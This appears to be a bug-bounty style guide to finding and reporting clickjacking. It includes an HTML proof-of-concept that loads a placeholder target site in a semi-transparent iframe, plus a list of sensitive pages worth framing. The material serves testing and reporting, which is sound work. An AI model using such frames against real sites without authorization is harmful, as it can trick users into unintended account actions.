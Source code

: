 # Clickjacking Vulnerability

##  What is Clickjacking?
Clickjacking is a type of attack where an attacker tricks a user into clicking on something different from what the user perceives. This is usually done by loading a vulnerable webpage inside an invisible or opaque frame and overlaying it with fake elements.

##  Detecting Clickjacking
- Install **Click-jacking** extension by **Daoud Youssef**.
- This extension highlights vulnerable web pages with a **red border** if:
  - They are vulnerable to Clickjacking.
  - They **lack the X-Frame-Options header**.

If a web page is vulnerable, it will show a red box. You can then create a **Proof of Concept (PoC)** using the following HTML code:

##  Proof of Concept (PoC)
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Clickjacking PoC</title>
    <style>
        body {
            margin: 0;
            padding: 0;
            background-color: #f4f4f4;
            display: flex;
            justify-content: center;
            align-items: center;
            height: 100vh;
        }
        .container {
            position: relative;
            width: 800px;
            height: 600px;
            border: 2px solid red; /* Red box to highlight the frame */
            overflow: hidden;
        }
        iframe {
            position: absolute;
            top: 0;
            left: 0;
            width: 100%;
            height: 100%;
            opacity: 0.3; /* Makes the target page slightly transparent */
            pointer-events: none; /* Disables direct interaction with the frame */
        }
    </style>
</head>
<body>
    <div class="container">
        <iframe src="http://target-site.com"></iframe>
    </div>
</body>
</html>
```

##  When is the vulnerability exploitable and reportable?
- If the **iframe** successfully loads data from the target site, then the site is **vulnerable**.
- If the site displays **sensitive data** (such as account details, personal data, admin panels, etc.) and lacks **X-Frame-Options**, it should be reported immediately.
- Page to edit email or password
- Page to change address or account data
- Page to manage payment methods (like adding/deleting credit cards)
- Page to escalate user privileges
- Any action that can affect the security or privacy of the account

>  **Note:** If the site allows framing but doesn’t display sensitive data, the issue might only be rated as **Informative**.
